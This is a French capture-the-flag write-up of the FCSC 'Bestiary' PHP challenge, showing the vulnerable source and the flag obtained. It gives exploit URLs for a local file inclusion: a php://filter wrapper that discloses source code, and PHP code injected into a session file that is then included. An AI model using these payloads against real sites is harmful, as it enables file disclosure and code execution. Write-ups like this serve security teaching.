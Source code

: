 # <center><b>Bestiary</b></center>
</br>
<blockquote>On vous demande simplement de trouver le flag.
</blockquote>
<br>
Donc on arrive sur une page comme celle-ci où l'on nous demande de choisir un monstre 

![](./bestiary.png)

On choisit donc un monstre et on appuit sur "show description" et là on peut remarquer plusieurs choses

![](./bestiary1.png)

D'abord on peut voir que l'url à changée, '?monster' s'est rajouté avec comme paramètre le nom de notre monstre. C'est sûrement là que nous allons avoir une vulnérabilité, sûrement une LFI (Local File Inclusion) ou une RFI (Remote File Inclusion).
<br>
Ensuite nous pouvons également voir que notre PHPSESSID a changé en même temps que le monstre, ça pourrait nous aider plus tard.
<br>

Bref revenons à notre faille, on essaye alors d'inclure index.php en paramètre à '?monster' et on y arrive finalement en utilisant les wrappers :

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php

On reçoit alors le code source de index.php en base64, nous avons juste à le decoder, ce qui nous donne :

    <?php
	    session_save_path("./sessions/");
	    session_start();
	    include_once('flag.php');
    ?>
    <html>
    <head>
	    <title>Bestiary</title>
    </head>
    <body style="background-color:#3CB371;">
    <center><h1>Bestiary</h1></center>
    <script>
    function show()
    {
	    var monster = document.getElementById("monster").value;
	    .location.href = "index.php?monster="+monster;
    }
    </script>

    <p>
    <?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
    ?>
    </p>

    <select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
    </select> <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
    </body>
    </html>


En lisant `session_save_path("./sessions/");` on peut déjà deviner le fichier dans lequel notre session sera stockée :

    http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_inserezvotrephpsessid

![](./bestiary2.png)

On peut alors voir que nous voyons le dernier monstre que nous avons visité. Mais si, vous ne vous rappelez pas ? Le cookie est changé en fonction du dernier monstre que nous avons regardé.<br>
C'est là que se trouve la vulnérabilité, si nous voulions afficher autre chose que le dernier monstre que nous avons regardé, il le serait totalement possible en changeant tout simplement le paramètre de 'monstre' dans l'index.<br>

Mais comment on a le flag ducoup ?<br>
Et bien vu que nous ne pouvons pas inclure le fichier 'flag.php', déjà inclus dans l'index.php, à cause de la fonction `include_once('flag.php');`.
Et bien il faut essayer de l'afficher sans l'inclure, ce que nous pouvons faire aisément avec les instructions `echo file_get_contents()` en php.
Essayons ça : 
<br>
<br>
On met met d'abord notre code en paramètre de 'monster'

    challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php') ?>

Ensuite il nous suffit d'inclure la path contenant notre session en exploitant la LFI 

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_votrephpsessid

La page ne nous retourne aucune erreur donc nous avons bien réussi à inclure le fichier, nous affichons le code source, et voilà notre fameux flag !

    monster|s:43:"<?php
	$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
